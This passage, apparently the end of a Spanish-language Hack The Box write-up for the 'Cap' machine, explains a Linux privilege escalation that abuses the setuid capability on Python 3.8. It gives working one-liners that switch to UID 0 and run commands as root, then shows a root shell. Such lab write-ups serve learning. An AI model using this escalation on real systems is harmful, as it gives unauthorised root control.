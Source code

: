 Básicamente es como una explotación por medio de un **SUID** (donde le indicamos que ejecute el binario o tarea como el creador de ese mismo binario o tarea), pero en este caso usamos el privilegio **setuid** para en vez de ejecutar el proceso **Python3.8** como **nathan** (**UID 1001**):

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

Ejecutarlo como el usuario **root** (siempre es **0**).

> Pa leer: [PrivEsc using **Capabilities**](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).

Demole mecha.

Lo único que debemos hacer es obtener la ruta absoluta del binario que corre **Python 3.8** e indicarle que nos ejecute una línea de programación, en ella le decimos que cambie el **UID** yyyyy (por ejemplo) que ejecute un comando en el sistema (por lo que ese comando lo ejecutara el usuario que haga match con el **UID** indicado).

```bash
nathan@cap:~$ which python3.8
/usr/bin/python3.8
```

Ahora ejecutamos el comando **whoami** (como prueba), primero validando que somos **nathan** y después como cualquier otro usuario (**root**):

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(1001); os.system("whoami")'
nathan
```

Perfe y ahora como **root**:

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("whoami")'
root
```

Perfectísimo, tenemos ejecución de comandos en el sistema como **root**, pues hagámonos una Shell:

![351bash_python38_setuid_shellRoot](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cap/351bash_python38_setuid_shellRoot.png)

Y estamos en el sistema como el usuario **root** (:

Veamos las flags...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cap/351flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Hemos terminado <3

...

Hace mucho no sacaban una máquina fácil fácil, estas para iniciar me hubieran venido de 10 jjaajjkalsdjflkñjasdlf. 

Linda máquina y fue la primera en la que toque las **capabilities**, así que pefeto (:

Como siempre, **a seguir rompiendo todo** y nos leeremos en otra ocasión ;)